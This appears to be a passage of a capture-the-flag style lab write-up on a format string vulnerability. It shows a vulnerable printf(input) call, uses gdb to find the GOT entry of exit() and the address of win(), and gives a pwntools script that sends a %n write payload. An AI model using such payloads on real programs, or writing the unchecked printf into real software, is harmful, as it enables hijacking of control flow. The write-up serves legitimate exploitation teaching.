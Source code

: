 ```c
    printf(input);

    exit(1);
}
```

The goal was to overwrite the GOT address of the function `exit()` with the address of the function `win()`.  

```console
inte@debian-pc:~$ docker run --rm -v "$(pwd):/app" -w /app gcc:10.5.0 gcc lab.c -o lab
inte@debian-pc:~$ ./lab     
%6$p
0x70243625
```

`0x70243625` is the hex representation of `%6$p`, implying that the offset to input is 6.  

```console
inte@debian-pc:~$ gdb ./lab
gef➤  r
Starting program: /mnt/hgfs/corridor/fmtstr_lab/lab 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
^C
Program received signal SIGINT, Interrupt.

gef➤  p win
$1 = {<text variable, no debug info>} 0x401162 <win>
gef➤  got

GOT protection: Partial RelRO | GOT functions: 5
 
[0x404018] system@GLIBC_2.2.5  →  0x401036
[0x404020] printf@GLIBC_2.2.5  →  0x401046
[0x404028] setvbuf@GLIBC_2.2.5  →  0x7ffff7e47ea0
[0x404030] __isoc99_scanf@GLIBC_2.7  →  0x7ffff7e22060
[0x404038] exit@GLIBC_2.2.5  →  0x401076
```

The address of `win()` is `0x401162`.  
The GOT address of `exit()` is `0x404038` and gets resolved to `0x401076`

Let's try overwriting `0x401076` with 100 (`0x64`) using `%n`, `%hn`, and `%hhn`. We'd observe the changes by attaching a debugger.

```py
from pwn import *

exe = context.binary = ELF('./lab', checksec=False)
# context.aslr = False
# context.log_level = 'debug'

p = exe.process()

gdb.attach(p, gdbscript='watch *0x404038')
pause()

p.sendline(b'%8$100p%8$n|||||\x38\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```
